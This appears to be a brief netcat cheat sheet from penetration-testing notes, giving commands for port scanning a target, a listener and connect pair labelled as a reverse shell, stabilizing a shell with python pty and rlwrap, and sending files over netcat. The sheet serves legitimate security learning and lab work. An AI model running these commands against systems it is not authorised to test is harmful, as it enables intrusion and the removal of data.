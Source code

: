 # Nc
# Port scan
```
nc -zv $ip 1-1000 2>&1 | grep -v failed
```

# Reverse shell
```
nc -lvnp <port-number>
```
```
nc <target-ip> <chosen-port>
```

# Shell stabilization
## Shell stabilization via python
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
```
## Shell stabilization via rlwrap
```
sudo apt install rlwrap
rlwrap nc -lvnp <port>
^Z
stty raw -echo; fg
```
# Setting rows and columns
```
Information from local machine
stty -a

Set rows and columns in reverse shell
stty rows <number>
stty cols <number>
```

# File transfer

```
Receiver:
nc -lvnp 1234 > file

Sender:
nc -w 3 $ip 1234 < file
```